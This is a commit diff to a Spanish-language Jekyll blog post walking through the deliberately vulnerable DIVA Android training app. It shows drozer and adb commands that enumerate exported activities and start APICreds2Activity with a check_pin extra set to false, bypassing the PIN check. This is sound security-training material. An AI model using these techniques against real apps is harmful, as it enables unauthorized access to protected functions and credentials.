

Before and after one commit to naibu3/naibu3.github.io, a Jekyll site: the page built from _posts/2025-06-27-Una-DIVA-es.md, in a window 1280 px wide and 1400 px high, scrolled down 3702 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4332 px from its top, so only the background shows below that.

Commit message:
Update 2025-06-27-Una-DIVA-es.md

````diff
--- a/_posts/2025-06-27-Una-DIVA-es.md
+++ b/_posts/2025-06-27-Una-DIVA-es.md
@@ -134,10 +134,47 @@ if (!bcheck) {
 }
 ```
 
-Para pasar dicho valor podemos utilizar el siguiente comando:
+Vamos a investigar con **drozer**:
 
 ```bash
-adb shell am start jakhar.aseem.diva/.APICreds2Activity --ez chk_pin false
+adb forward tcp:31415 tcp:31415
+31415
+```
 
-Starting: Intent { act=android.intent.action.MAIN cat=[android.intent.category.LAUNCHER] cmp=jakhar.aseem.diva/.APICreds2Activity }
+```bash
+drozer console connect
+Selecting 49d862176aaee32d (Xiaomi Mi Note 10 11)
+
+            ..                    ..:.
+           ..o..                  .r..
+            ..a..  . ....... .  ..nd
+              ro..idsnemesisand..pr
+              .otectorandroidsneme.
+           .,sisandprotectorandroids+.
+         ..nemesisandprotectorandroidsn:.
+        .emesisandprotectorandroidsnemes..
+      ..isandp,..,rotecyayandro,..,idsnem.
+      .isisandp..rotectorandroid..snemisis.
+      ,andprotectorandroidsnemisisandprotec.
+     .torandroidsnemesisandprotectorandroid.
+     .snemisisandprotectorandroidsnemesisan:
+     .dprotectorandroidsnemesisandprotector.
+
+drozer Console (v3.1.0)
+dz> run app.activity.info -a jakhar.aseem.diva
+Attempting to run shell module
+Package: jakhar.aseem.diva
+  jakhar.aseem.diva.MainActivity
+    Permission: null
+  jakhar.aseem.diva.APICredsActivity
+    Permission: null
+  jakhar.aseem.diva.APICreds2Activity
+    Permission: null
 ```
+
+Para pasar dicho valor podemos utilizar el siguiente comando en drozer:
+
+```bash
+dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity --extra boolean check_pin false
+Attempting to run shell module
+```
````
